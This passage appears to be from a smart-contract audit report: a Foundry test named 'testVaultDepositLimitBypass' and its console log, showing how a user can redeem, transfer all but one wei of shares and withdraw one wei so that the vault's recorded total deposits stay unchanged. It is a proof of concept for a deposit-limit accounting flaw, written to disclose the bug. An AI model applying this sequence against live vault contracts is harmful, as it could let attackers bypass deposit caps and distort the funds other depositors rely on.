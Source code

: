```solidity
        DVPUtils.disableOracleDelayForIG(ap, ig, admin, vm);

        vm.prank(admin);
        registry.registerDVP(address(ig));
        vm.prank(admin);
        MockedVault(vault).setAllowedDVP(address(ig));
        feeManager = FeeManager(ap.feeManager());

        exchange = TestnetSwapAdapter(ap.exchangeAdapter());
    }

    function testVaultDepositLimitBypass() public {
        _strike = 1e18;
        VaultUtils.addVaultDeposit(alice, 1e18, admin, address(vault), vm);
        VaultUtils.addVaultDeposit(bob, 1e18, admin, address(vault), vm);

        Utils.skipDay(true, vm);

        vm.prank(admin);
        ig.rollEpoch();

        VaultUtils.logState(vault);
        (,,,,uint totalDeposit,,,,) = vault.vaultState();
        console.log("total deposits", totalDeposit);

        vm.startPrank(alice);
        vault.redeem(1e18);
        vault.transfer(address(charlie), 1e18-1);
        vault.initiateWithdraw(1);
        vm.stopPrank();

        VaultUtils.logState(vault);
        (,,,,totalDeposit,,,,) = vault.vaultState();
        console.log("total deposits", totalDeposit);

    }
}
```

Execution console:
```solidity
  current epoch 1698566400
  baseToken balance 1000000000000000000
  sideToken balance 1000000000000000000
  dead false
  lockedInitially 2000000000000000000
  pendingDeposits 0
  pendingWithdrawals 0
  pendingPayoffs 0
  heldShares 0
  newHeldShares 0
  base token notional 1000000000000000000
  side token notional 1000000000000000000
  ----------------------------------------
  total deposits 2000000000000000000
  current epoch 1698566400
  baseToken balance 1000000000000000000
  sideToken balance 1000000000000000000
  dead false
  lockedInitially 2000000000000000000
  pendingDeposits 0
  pendingWithdrawals 0
  pendingPayoffs 0
  heldShares 0
```